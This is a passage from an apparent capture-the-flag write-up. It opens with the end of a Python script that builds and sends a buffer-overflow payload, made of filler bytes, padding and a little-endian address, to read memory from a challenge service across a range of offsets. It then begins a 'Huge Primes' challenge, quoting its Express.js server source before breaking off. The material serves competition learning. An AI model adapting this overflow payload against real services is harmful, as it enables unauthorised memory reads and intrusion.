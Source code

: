 ```py
    address = int(hex_address, 16)

    new_address = hex(address - offset)[2:] # hex, chopping off '0x'

    print(f'We are at {hex_address}. reading at {new_address}')
    little_endian_encoded = to_little_endian(new_address)

    buffer_overflow = 'a'*17
    padding = '0' * (64 - len(little_endian_encoded)) # pad 64 bit address, little endian encoded?
    payload = buffer_overflow + padding + little_endian_encoded
    conn.send(payload.encode('utf-8')) # send our new address back

    response = conn.recv()
    response_str = response.decode('utf-8')
    if len(response_str) > len('Here are the contents of 0x7fff64b6fa37: \n'):
        print(response_str)

    # Close the connection
    conn.close()

for offset in range(13, 25):
    hack(offset)
```

## Huge Primes (2021)

<https://squarectf.com/2021/hugeprimes.html>

> Find the prime factors of `22952152323332505688670761214671498225451684330137990990356473040741684014997701799009910066964917896400501477`

This challenge is designed to trick you.

Factoring this really large number is going to be incredibly difficult.

This is really a challenge about binary numbers in JavaScript.

We are provided with the file `sourcecode.js`:

```js
const express = require("express");
const bodyParser = require("body-parser");
const app = express();
const hugeProductOfPrimes = 22952152323332505688670761214671498225451684330137990990356473040741684014997701799009910066964917896400501477;
const flag = ";)";
const correct = "Correct! Here is your flag: " + flag;
const incorrect = "Incorrect factors! Try again";

// Constants
const PORT = 8080;
const HOST = "0.0.0.0";

app.set("view engine", "ejs");

app.listen(PORT, HOST);
console.log(`Running on http://${HOST}:${PORT}`);

app.use(bodyParser.urlencoded({ extended: true }));

app.get("/", (req, res) => {
  res.sendFile(__dirname + "/index.html");
});

app.post("/factors", (req, res) => {
  a = req.body["a"];
```